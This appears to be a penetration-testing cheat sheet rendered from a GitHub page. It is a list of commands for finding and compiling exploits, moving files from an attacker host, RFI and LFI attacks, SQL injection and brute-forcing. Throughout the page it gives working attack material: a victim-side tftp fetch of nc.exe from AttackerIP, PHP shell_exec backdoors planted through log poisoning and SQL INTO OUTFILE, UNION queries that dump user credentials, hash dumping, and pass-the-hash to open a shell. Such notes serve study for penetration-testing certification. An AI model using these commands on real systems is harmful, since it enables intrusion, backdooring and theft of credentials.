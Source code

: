 # Exploitation
_Finding Public Exploits:_  
www.securityfocus.com/vulnerabilities    
www.exploit-db.com

`searchsploit <keyword>` #Search exploit-db by keyword  
`cp /usr/share/exploitdb/platforms/windows/remote/{643.c,646.c}` . #copy found exploit to root directory

### **Compiling** .  
`i586-mingw32msvc-gcc exploit-fixed.c -lws2_32 -o exploit.exe` #compile Windows code on Linux .      
`wine exploit.exe` #Run Windows executable on Linux

_Convert Python Exploit to Win Exe_  
#On our Windows staging host 
#Install pywin32-218.win320py2.7  
#Extract pyinstaller-2.0 
#Move python exploit into pyinstaller-2.0 directory 
#Invoke pyinstaller to convert to Exe  
`python pyinstaller.py —onefile ms11-080.py`

### **File Transfers**  
_TFTP_  
#Attacker  
`mkdir /tftp  
atftpd --daemon --port 69 /tftp  
cp /usr/share/windows-binaries/nc.exe /tftp/  `

#Victim  
`tftp -i AttackerIP GET nc.exe  `

_PS File Transfer_  
#code sequence in powershell-download file  
`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1` #Bypass Execution Policy

### **Web Application Attacks**  
LFI/RFI #usually in poor php code .  
_RFI_  
`VulnParam=http://AttackerIP/evil.txt%00` #%00 null byte instructs to ignore everything after value .  
#Where evil.txt is `<?php echo shell_exec(“cat /etc/passwd”);?>`  
`$ echo ‘<?php echo shell_exec(“ifconfig”);?>’ > /var/www/evil.txt`

`$ tail -f /var/log/apache2/access.log` #track traffic from our apache web server hosting evil.txt

_LFI_   
#Contaminate the web server log with a PHP backdoor .  
`$ nc -nv TargetIP 80 ` 
`<?php echo shell_exec($_GET[‘cmd’]);?>` 

#append URL to execute command from access log file .  
`&cmd=ipconfig&VulnParam=../../../../../../xampp/apache/logs/access.log%00`

_SQL Injection_   
“`Any’ or 1=1 limit 1;#`" #any username, always true statement, limit one account, end statement while ignoring rest of needed arguments   

Error-based Enumeration Example:  
`test.php?id=1 union order by <recursive #s>` #figure out how many columns (lets assume 6 columns)  
`test.php?id=1 union select 1,2,3,4,5,6` #see where each column is on the page   
`test.php?id=1 union select 1,2,3,4,@@version,6` #use 5th column position to print server version   
`test.php?id=1 union select 1,2,3,4,user(),6` #displays current DB user into 5th column field   
`test.php?id=1 union select 1,2,3,4,table_name,6 FROM information_schema.tables` #all tables   
`union select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name=‘users’` #Extract all column names from the specific table of interest   
`union select 1,2,name,4,password,6 FROM users` #dump creds from users table   

`union all select 1,2,3,4,”<?php echo shell_exec($_GET[‘cmd’]);?>”,6 into OUTFILE ‘c:/xampp/htdocs/backdoor.php’` #add backdoor file to the Windows web root   
`TargetIP/backdoor.php?cmd=ipconfig` #access the uploaded backdoor    

SQLMap   
`sqlmap -u http://TargetIP —crawl=1` #sqlmap crawl web app and search for vulns   

### **Password Attacks**
`FGDUMP.exe` #with admin privs on a local machine, download and run fgdump.exe to display hashes.  
`WCE.exe / WCE64.exe -w` #run locally on a system to display cleartext admin password   

_Pass-the-Hash_   
`pth-` #displays all the tools in suite that can use a hash for authentication   
`export SMBHASH=<HashValue>` #sets the SMBHASH variable with found hash value   
`pth-winexe -U administrator% //TargetIP cmd` #pop cmd on target server with empty admin pw (using hash variable set)   

_Password Audit Tools_   
`Medusa -h TargetIP -u admin -P password-file.txt -M http -m DIR:/admin -T 20` #Medusa   
`Ncrack -v -f —user administrator -P password-file.txt rdp://TargetIP,CL=1` #Ncrack for RDP brute force   
`Hydra -l admin -P password-file.txt -v TargetIP ftp` #Hydra   

### **Tunneling/Redirection**   
#Portforwarding using rinetd
`Nano /etc/rinetd.conf`   
#Configure bindaddress (our proxy address), bind port, connectaddress and connect port   
Ex. `KaliIP 80 TargetIP 3389`   
#Targeting the proxy IP on port 80 from internal network host with only 80/443 outbound allowed will instead connect to target IP RDP.  
`/etc/init.d/rinetd restart`
